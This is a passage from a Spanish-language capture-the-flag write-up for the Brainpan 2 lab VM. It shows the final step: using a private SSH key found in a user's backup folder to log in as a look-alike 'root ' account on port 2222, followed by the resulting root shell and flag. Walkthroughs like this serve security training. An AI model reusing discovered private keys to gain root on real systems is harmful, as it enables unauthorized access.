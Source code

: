 
> En el archivo .bash_history encontramos la pista de que es posible conectarnos por SSH a través de llaves sin requerir credenciales.

<img src="https://github.com/El-Palomo/BrainPan2/blob/main/Brain14.jpg" width="80%"></img>

> Utilizamos el archivo ID_RSA de la carpeta backup para conectarnos.
```
puck@brainpan2:/home/puck/.backup$ ssh -l "root " brainpan2 -i ./.ssh/id_rsa -p2222
<backup$ ssh -l "root " brainpan2 -i ./.ssh/id_rsa -p2222                    
Linux brainpan2 3.2.0-4-686-pae #1 SMP Debian 3.2.51-1 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Feb 13 21:03:24 2021 from localhost
root @brainpan2:~# id
id
uid=0(root ) gid=0(root ) groups=0(root )
root @brainpan2:~# cat /root/flag.txt
cat /root/flag.txt

                          !!! CONGRATULATIONS !!!

                 You've completed the Brainpan 2 challenge! 
                 Or have you...? 

                 Yes, you have! Pat yourself on the back. :-)

                 Questions, comments, suggestions for new VM
                 challenges? Let me know! 


                 Twitter: @superkojiman
```